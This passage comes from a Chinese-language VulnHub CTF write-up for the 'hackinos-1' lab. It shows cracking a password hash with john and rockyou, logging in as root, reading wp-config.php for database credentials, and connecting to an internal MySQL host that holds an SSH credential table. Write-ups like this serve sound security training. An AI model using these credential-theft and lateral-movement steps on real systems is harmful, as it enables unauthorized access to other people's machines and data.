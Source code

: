 ```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

爆破成功以后，可以直接查看明文

![1553589295617](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553589295617.png)

可以看到，密码是john

到这里，我们成功拿到了root的密码

尝试登陆root用户

![1553589348103](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553589348103.png)

查看flag文件，发现这并不是真正的flag文件

![1553589386321](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553589386321.png)

其中有一个隐藏文件，查看它的内容

```shell
root@1afdd1f6b82c:~# more .port
Listen to your friends..
7*
```

不晓得啥意思，

# 内网渗透

去web目录下，查看配置文件寻找线索

```
cd /var/www/html
more wp-config.php
```

![1553589619378](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553589619378.png)

可以看到，wordpress这个站点使用的数据库的信息。尝试查看db这台主机

```shell
ping db
```

确认，db的主机ip为172.18.0.2

尝试直接连接其mysql数据库

```shell
mysql -h 172.18.0.2 -uwordpress -pwordpress
```

在wordpress数据库中发现了一个host_ssh_cred表

![1553589910102](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553589910102.png)
